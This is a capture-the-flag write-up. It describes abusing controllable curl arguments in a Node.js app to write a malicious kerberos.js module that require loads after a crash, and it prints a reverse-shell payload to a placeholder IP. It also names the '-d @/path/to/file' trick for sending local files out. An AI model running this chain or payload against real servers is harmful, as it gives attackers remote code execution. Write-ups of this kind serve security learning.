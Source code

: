 Here will take three contents from req.body, url, opt and data. Where url is verified by `new URL(url)` and the protocol must be http or https; opt has a regular check and must be `-` followed by a letter; when opt is -d or data is one of GET/POST, they will be passed as parameters to curl. The parameter passed here is child_process.spawn, and shell=True is not specified in the third parameter, so `cmd` or `$(cmd)` cannot be injected into the parameter to execute the command.

That is to say, the commands we can execute look like this:

```
curl http(s)://<any URL> -d <any content>
curl http(s)://<any URL> -<a letter> <GET or POST>
```

It is a very common CTF problem that curl parameters are controllable. Common uses include:

`-O <path>` write to file

`-K <path>` specifies curlrc, which can contain any curl parameters

`-d @/path/to/file` POST the file to the specified URL

The -O and -K are used here, first `-O GET` to save the following content to `/tmp/GET`,

```
create-dirs
output="/home/user/.node_modules/kerberos.js"
```

Then `-K GET` loads it as curlrc, which is equivalent to specifying any and multiple curl parameters, that is, specifying `--create-dirs --output=/home/user/.node_modules/kerberos.js`, put the following content Save to kerberos.js:

```
require('child_process').exec('bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1"')
```

Trigger a node process crash, and require will load this `/home/user/.node_modules/kerberos.js` when restarting

How did this `/home/user/.node_modules/kerberos.js` come from? Use strace to see what will be loaded when required in nodejs

![](https://imgur.com/9TCOYO9.png)

There are three lines of requirement in the app.js given in the title:

```javascript
const { MongoClient } = require("mongodb");
const cp = require('child_process');
const express = require("express");
```

Normally, after npm install, these three lines of require must work normally, but some non-nodejs native libraries such as mongodb will try to load other libraries to enrich their own functions (optional features). The search order of require is the current directory first and then $HOME. The kerberos.js here may be loaded by express or mongodb. I didn’t check it for details.

In addition, in the Dockerfile of this question, the user was switched before the node process was finally started, and the file added to the container was added by the root user
